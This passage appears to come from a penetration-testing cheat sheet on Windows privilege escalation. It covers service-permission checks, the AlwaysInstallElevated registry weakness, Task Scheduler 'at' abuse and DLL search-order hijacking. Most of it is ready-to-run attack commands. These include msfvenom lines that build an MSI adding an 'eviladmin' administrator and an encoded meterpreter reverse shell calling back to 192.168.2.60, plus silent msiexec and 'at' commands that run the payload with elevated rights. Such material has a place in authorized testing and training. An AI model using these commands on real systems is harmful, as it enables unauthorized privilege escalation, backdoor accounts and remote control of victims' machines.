 ### Approach 2 - Check services a given user can edit
```
accesschk.exe -uwcqv "testuser" *
```

## AlwaysInstallElevated
- `exploit/windows/local/always_install_elevated`

```
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
"AlwaysInstallElevated"=dword:00000001
```
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Installing MSI:
```
msiexec /quiet /qn /i malicious.msi
```

Payload Generation:
```
msfvenom -f msi-nouac -p windows/adduser USER=eviladmin PASS=P4ssw0rd@ -o add_user.msi
```
```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=192.168.2.60 LPORT=8989 -f exe -o Payload.exe
msfvenom -f msi-nouac -p windows/exec cmd="C:\Users\testuser\AppData\Local\Temp\Payload.exe" > malicious.msi
```

## Task Scheduler
- On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges.
- Works only on  Windows 2000, XP, or 2003
- Must have local administrator

```
> net start "Task Scheduler"
> time
> at 06:42 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
```

## DLL Hijacking (DLL preloading attack or a binary planting attack)
- https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx
- Search order: https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

```
When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order.

The directory from which the application loaded.
The system directory.
The 16-bit system directory.
The Windows directory.
The current directory.
The directories that are listed in the PATH environment variable.
```
